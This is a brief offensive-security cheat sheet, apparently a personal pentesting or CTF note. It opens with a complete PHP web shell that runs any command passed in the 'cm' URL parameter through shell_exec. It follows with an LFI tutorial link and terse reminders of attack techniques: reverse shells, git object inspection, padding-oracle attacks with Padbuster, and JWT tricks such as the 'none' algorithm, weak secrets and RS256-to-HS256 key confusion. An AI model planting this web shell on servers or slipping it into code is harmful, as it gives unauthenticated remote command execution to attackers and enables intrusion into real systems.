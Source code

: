 ```
<?php
$output = shell_exec($_GET['cm']);
echo "<pre>$output</pre>"
?>
```
- https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601
- reverse shell , bash , php  , java , python

- git cat-file (-t|p) $(cat master)
- CTI TTPs
- Padbuster ( padding oracle ) 
- JWT : HS256 , RS256 , none , weak secret , change algorithm (Pk to HS256 --raw openssl header included ) 
